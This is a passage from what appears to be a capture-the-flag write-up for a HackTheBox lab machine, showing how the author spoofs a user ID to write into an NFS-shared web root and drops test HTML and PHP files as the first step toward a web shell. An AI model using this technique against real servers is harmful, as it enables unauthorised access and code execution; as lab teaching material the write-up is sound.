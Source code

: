 ## Shell as alex

### Get Access to Web Root

The web root is owned by userid 2017, and groupid 33. I’ll set my dummy userid to 2017, and drop into a shell as dummy:

```

oxdf@hacky$ sudo usermod -u 2017 dummy 
oxdf@hacky$ sudo su dummy -c bash
bash: cannot set terminal process group (168647): Inappropriate ioctl for device
bash: no job control in this shell
dummy@hacky:/media/sf_CTFs/hackthebox/squashed-10.10.11.191$ 

```

Now I can read the share just fine:

```

dummy@hacky:/$ ls -l /mnt
total 44
drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 css
drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 images
-rw-r----- 1 dummy www-data 32532 Nov 11 20:40 index.html
drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 js

```

### File Write Test

Now that I can access the web root, can I write files to it? It seems like I can:

```

dummy@hacky:/$ echo "Test?" > /mnt/0xdf.html

```

Loading up `http://10.10.11.191/0xdf.html` in Firefox, it returns the message:

![image-20221111154220530](https://0xdfimages.gitlab.io/img/image-20221111154220530.png)

### PHP WebShell

#### POC

Even though the site isn’t running any obvious PHP, it’s worth taking a shot and seeing it the webserver will execute PHP. I’ll write a small PHP file that just echos a message back:

```

dummy@hacky:/$ echo -e '<?php\n  echo "0xdf was here!";\n?>'
<?php
  echo "0xdf was here!";
?>
dummy@hacky:/$ echo -e '<?php\n  echo "0xdf was here!";\n?>' > /mnt/0xdf.php

```
